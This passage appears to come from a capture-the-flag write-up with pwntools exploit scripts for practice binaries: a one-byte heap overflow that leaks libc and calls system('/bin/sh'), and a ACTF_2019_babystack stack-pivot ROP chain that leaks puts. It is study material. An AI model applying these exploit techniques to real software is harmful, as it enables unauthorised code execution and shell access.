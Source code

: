 ```python

add(0x18,'ni')#0
add(0x18,'wo')#1
add(0x18,'/bin/sh\x00')#2
payload='\x00'*24+'\x41'
edit(0,payload)
dele(1)
#gdb.attach(r)

payload=p64(0)*3+p64(0x21)+p64(100)+p64(free)
add(0x38,payload)
#gdb.attach(r)

show(1)
r.recvuntil('Content : ')
leak=u64(r.recv(6).ljust(8,'\x00'))
log.success('leak:'+hex(leak))
if local :
	base=leak-0x097a30
	sys=base+0x04f550
else:
	base=leak-0x097950
	sys=base+0x04f440
edit(1,p64(sys))
dele(2)
r.interactive()

```



## 3.ACTF_2019_babystack  栈迁移

```python
from pwn import *
from LibcSearcher import *
context(log_level='debug',arch='amd64',os='linux')

elf=ELF('./ACTF_2019_babystack')
libc=ELF('./libc-2.27.so')
p=process('./ACTF_2019_babystack')
p=remote('node4.buuoj.cn',28111)

main=0x4008f6
leave=0x400a18
pop_rdi=0x400ad3
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']

p.recvuntil('>')
p.sendline(str(0xe0))
p.recvuntil('Your message will be saved at ')
s_addr=int(p.recvuntil('\n',drop=True),16)

payload = 'a'*8+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
payload += 'a'*(0xd0-len(payload))+p64(s_addr)+p64(leave)

p.recvline()
p.recvuntil('>')
p.send(payload)

p.recvuntil('Byebye~\n')
puts_addr = u64(p.recvuntil('\n',drop = True).ljust(8,'\x00'))
libcbase = puts_addr - libc.symbols['puts']
```